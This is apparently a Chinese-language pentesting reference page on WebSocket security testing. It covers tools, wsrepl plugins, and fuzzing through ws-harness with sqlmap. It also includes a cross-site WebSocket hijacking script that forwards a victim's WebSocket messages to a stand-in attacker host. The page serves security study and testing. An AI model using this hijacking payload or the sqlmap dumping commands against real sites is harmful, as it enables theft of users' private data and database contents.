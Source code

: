 # 网络套接字

> WebSocket 是一种通信协议，它通过单一的、长期存在的连接提供全双工通信通道。这使得客户端（通常是网络浏览器）和服务器之间能够通过持久连接进行实时的双向通信。WebSocket 常用于需要频繁、低延迟更新的 Web 应用程序，例如实时聊天应用程序、在线游戏、实时通知以及金融交易平台。

## 概述

* [工具](#工具)
* [方法论](#方法论)
    * [使用 wsrepl](#使用-wsrepl)
    * [使用 ws-harness.py](#使用-ws-harnesspy)
* [跨站 WebSocket 劫持 (CSWSH)](#跨站-websocket-劫持-cswsh)
* [实验环境](#实验环境)
* [参考文献](#参考文献)

## 工具

* [doyensec/wsrepl](https://github.com/doyensec/wsrepl) - 针对渗透测试人员的 WebSocket REPL
* [mfowl/ws-harness.py](https://gist.githubusercontent.com/mfowl/ae5bc17f986d4fcc2023738127b06138/raw/e8e82467ade45998d46cef355fd9b57182c3e269/ws.harness.py)
* [PortSwigger/websocket-turbo-intruder](https://github.com/PortSwigger/websocket-turbo-intruder) - 使用自定义 Python 代码模糊测试 WebSocket
* [snyk/socketsleuth](https://github.com/snyk/socketsleuth) - 用于渗透测试基于 WebSocket 的应用程序的 Burp 扩展

## 方法论

### 使用 wsrepl

`wsrepl` 是由 Doyensec 开发的工具，旨在简化基于 WebSocket 的应用程序的审计工作。它提供了用户友好的交互式 REPL 接口，并且易于自动化。该工具是在与一位客户合作时开发的，该客户的 Web 应用程序大量依赖于 WebSocket 进行软实时通信。

wsrepl 设计的目标是平衡交互式 REPL 体验和自动化功能。它使用 Python 的 TUI 框架 Textual 构建，并且可以与 curl 的参数互操作，从而轻松从 Burp 中的 Upgrade 请求过渡到 wsrepl。它还根据 RFC 6455 提供了完整的 WebSocket 操作码透明度，并在断开连接时具有自动重新连接功能。

```ps1
pip install wsrepl
wsrepl -u URL -P auth_plugin.py
```

此外，wsrepl 简化了向 WebSocket 自动化过渡的过程。用户只需编写一个 Python 插件即可。插件系统设计灵活，允许用户在 WebSocket 生命周期的不同阶段（初始化、消息发送、消息接收等）定义钩子。

```py
from wsrepl import Plugin
from wsrepl.WSMessage import WSMessage

import json
import requests

class Demo(Plugin):
    def init(self):
        token = requests.get("https://example.com/uuid").json()["uuid"]
        self.messages = [
            json.dumps({
                "auth": "session",
                "sessionId": token
            })
        ]

    async def on_message_sent(self, message: WSMessage) -> None:
        original = message.msg
        message.msg = json.dumps({
            "type": "message",
            "data": {
                "text": original
            }
        })
        message.short = original
        message.long = message.msg

    async def on_message_received(self, message: WSMessage) -> None:
        original = message.msg
        try:
            message.short = json.loads(original)["data"]["text"]
        except:
            message.short = "Error: could not parse message"

        message.long = original
```

### 使用 ws-harness.py

启动 `ws-harness` 监听 WebSocket，并指定要发送给端点的消息模板。

```powershell
python ws-harness.py -u "ws://dvws.local:8080/authenticate-user" -m ./message.txt
```

消息内容应包含 **[FUZZ]** 关键字。

```json
{
    "auth_user":"dGVzda==",
    "auth_pass":"[FUZZ]"
}
```

然后你可以使用任何工具针对新创建的 Web 服务，作为代理并动态篡改通过 WebSocket 发送的消息内容。

```python
sqlmap -u http://127.0.0.1:8000/?fuzz=test --tables --tamper=base64encode --dump
```

## 跨站 WebSocket 劫持 (CSWSH)

如果 WebSocket 握手没有正确地使用 CSRF 令牌或随机数保护，攻击者可以利用用户的已认证 WebSocket，因为浏览器会自动发送 Cookie。这种攻击被称为跨站 WebSocket 劫持 (CSWSH)。

示例攻击代码，托管在攻击者的服务器上，用于窃取来自 WebSocket 的数据并发送给攻击者：

```html
<script>
  ws = new WebSocket('wss://vulnerable.example.com/messages');
  ws.onopen = function start(event) {
    ws.send("HELLO");
  }
  ws.onmessage = function handleReply(event) {
    fetch('https://attacker.example.net/?'+event.data, {mode: 'no-cors'});
  }
  ws.send("Some text sent to the server");
</script>
```

你需要根据具体情况调整代码。例如，如果你的 Web 应用程序在握手请求中使用了 `Sec-WebSocket-Protocol` 头部，你需要将此值作为第二个参数传递给 `WebSocket` 函数调用以添加此头部。

## 实验环境

* [PortSwigger - 利用操纵 WebSocket 消息来挖掘漏洞](https://portswigger.net/web-security/websockets/lab-manipulating-messages-to-exploit-vulnerabilities)
* [PortSwigger - 跨站 WebSocket 劫持](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab)
* [PortSwigger - 利用操纵 WebSocket 握手来挖掘漏洞](https://portswigger.net/web-security/websockets/lab-manipulating-handshake-to-exploit-vulnerabilities)
* [Root Me - Web Socket - 0 保护](https://www.root-me.org/en/Challenges/Web-Client/Web-Socket-0-protection)

## 参考文献

* [黑客攻陷 WebSocket：欢迎所有 Web 渗透测试工具 - Michael Fowl - 2019年3月5日](https://web.archive.org/web/20190306170840/https://www.vdalabs.com/2019/03/05/hacking-web-sockets-all-web-pentest-tools-welcomed/)
* [使用 WebSocket 黑客攻击 - Mike Shema, Sergey Shekyan, Vaagn Toukharian - 2012年9月20日](https://media.blackhat.com/bh-us-12/Briefings/Shekyan/BH_US_12_Shekyan_Toukharian_Hacking_Websocket_Slides.pdf)
* [小型 WebSocket CTF - Snowscan - 2020年1月27日](https://snowscan.io/bbsctf-evilconneck/#)
* [使用 wsrepl 流程化 WebSocket 渗透测试 - Andrez Konstantinov - 2023年7月18日](https://blog.doyensec.com/2023/07/18/streamlining-websocket-pentesting-with-wsrepl.html)
* [测试 WebSocket 安全漏洞 - PortSwigger - 2019年9月28日](https://portswigger.net/web-security/websockets)
* [WebSocket 攻击 - HackTricks - 2024年7月19日](https://book.hacktricks.xyz/pentesting-web/websocket-attacks)